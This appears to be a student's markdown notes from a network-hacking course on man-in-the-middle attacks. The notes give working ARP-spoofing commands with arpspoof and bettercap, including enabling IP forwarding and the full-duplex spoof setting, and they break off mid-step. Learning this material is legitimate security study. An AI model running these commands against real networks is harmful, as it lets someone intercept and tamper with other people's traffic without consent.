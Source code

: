# MITM Attacks(Man In The Middle)
Possible only if we can intercept the communication between 2 devices.
Methods
* ARP Spoofing - 

# ARP Spoofing

Tools -
* arpspoof
   * First we fool the target
   
           arpspoof -i eth0 -t ip_of_target ip_of_router
   * Then we split command screen and fool the router
   
           arpspoof -i eth0 -t ip_of_router ip_of_target
   * Now since the computer is not a router, we have to run a command to forward the packets to the router, by a process called ==Port Forwarding==
           
           echo 1 > /proc/sys/net/ipv4/ip_forward
   * This tool only allows us to be the middle man, for other operations, we will have to use other tools.

* ==bettercap== - Framework to run network attacks. It can be used for arp spoof targets, sniff data, bypass https, dns spoofing(redirect domain requests), inject code in loaded pages, and more.
   * To run
        
            bettercap -iface eth0
   * This opens the interface of the tool, where we can run the commands.
   * To know about all commands and ==modules==
   
            help
   * To know how a module works
   
            help module_name
   * We can run net.probe module
   
            net.probe on
   * Since net.probe is on, we can see all of the connected clients by
     
            net.show

# ARP Spoofing Using Bettercap
First make sure ==net.probe== and ==net.recon== are running using help command(When we turn net.probe on, net.recon gets on automatically). 
We are going to use the ==arp.spoof== module. Now we will use different parameters of it for arp spoofing.

To spoof both target and gateway

    set arp.spoof.fullduplex true
    
Now to target (to know the ip, we have used the net.show in previos video)
